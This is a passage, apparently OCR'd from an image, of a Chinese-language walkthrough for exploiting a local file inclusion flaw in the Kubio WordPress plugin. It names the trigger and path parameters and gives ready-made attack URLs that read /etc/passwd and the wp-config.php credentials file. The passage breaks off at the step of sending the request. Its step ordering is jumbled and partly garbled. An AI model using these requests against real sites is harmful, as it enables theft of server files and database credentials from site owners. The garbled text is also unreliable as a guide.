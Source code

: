   
 和 
```
!empty()
```

  
 判断为 True 的值均可，如 
```
yes
```

  
, 
```
on
```

  
)。**这是触发漏洞函数的开关。**  
  
1. 
```
kubio-site-edit-iframe-classic-template
```

  
: 设置为 **目标文件的服务器绝对路径**  
。**这是包含的目标文件路径。**  
  
1. 在捕获到的请求中（或在浏览器地址栏直接构造 GET 请求），**添加或修改**  
以下两个关键参数：  
  
1. **示例攻击 URL (GET 方式):**
```
http://your-wordpress-site.com/wp-admin/post.php?post=<a_post_id>&action=edit&_kubio-site-edit-iframe-preview=1&kubio-site-edit-iframe-classic-template=/etc/passwd

```

(将 your-wordpress-site.com 替换为目标站点，<a_post_id> 替换为一个存在的文章/页面 ID)  
  
1. **示例攻击 URL (读取 WordPress 配置文件 - 极敏感！):**
```
http://your-wordpress-site.com/?_kubio-site-edit-iframe-preview=1&kubio-site-edit-iframe-classic-template=/var/www/html/wordpress/wp-config.php

```

(注意：wp-config.php 的路径需根据实际安装位置调整)  
  
1. **发送请求 & 观察结果：**  
  
1. 如果目标文件是文本文件（如 
```
/etc/passwd
```

  
, 
```
wp-config.php
```
